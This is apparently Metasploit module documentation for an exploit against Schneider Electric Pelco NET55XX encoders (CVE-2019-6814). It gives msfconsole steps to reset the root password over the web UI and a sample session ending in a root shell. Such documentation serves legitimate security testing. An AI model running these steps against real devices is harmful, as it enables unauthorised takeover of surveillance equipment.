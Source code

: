 ## Vulnerable Application

Schneider Electric Pelco NET55XX Encoder (CVE 2019-6814)

Adding Schneider Electric Pelco NET55XX module affecting NET55XX versions (NET5501, NET5501-I, NET5501-XT, NET5504, NET5500,NET5516,NET550).
 This module exploits an inadequate access control vulnerability creating a malicious json request to`the webUI encoder, thus allowing the SSH service to be enabled and changing the root password.

## Verification Steps

- [ ] Start `msfconsole`
- [ ] `use  use exploit/linux/http/schneider_electric_net55xx_encoder`
- [ ] `set RHOSTS [rhosts]`
- [ ] `set RPORT [rport]`
- [ ] `set NEW_PASSWORD [new password]`
- [ ] `exploit`
- [ ] Verify you get a root shell

## Options

This module can be as simple as setting the RHOST and NEW_PASSWORD option, and you're ready to go.

**NEW_PASSWORD**  

You should  set a new ssh password to the vulnerable device.


## Scenarios

**Schneider Electric Pelco Encoder NET5501-XT**

msf5 exploit(unix/http/schneider_electric_net55xx_encoder) > set RHOSTS 192.168.34.2
RHOSTS  => 192.168.34.2
msf5 exploit(unix/http/schneider_electric_net55xx_encoder) > set RPORT 80
RPORT  => 80
msf5 exploit(unix/http/schneider_electric_net55xx_encoder) > set NEW_PASSWORD msfrapid7
NEW_PASSWORD => msfrapid7
msf5 exploit(unix/http/schneider_electric_net55xx_encoder) > run

[] 192.168.34.2:22 - Attempt to start a SSH connection...
[] 192.168.34.2:80 - Attempt to change the root password...
[+] 192.168.34.2:80 - Successfully changed the root password...
[+] 192.168.34.2:22 - Session established
[] Found shell.
[] Command shell session 1 opened (192.168.34.3:37033 -> 192.168.34.2:22) at 2019-07-03 10:57:07 -0400

uname -a;id
Linux NET5501-XT-K61200103 2.6.37 #1 PREEMPT Fri Aug 8 04:33:08 KST 2014 armv7l unknown
uid=0(root) gid=0(root) groups=0(root)
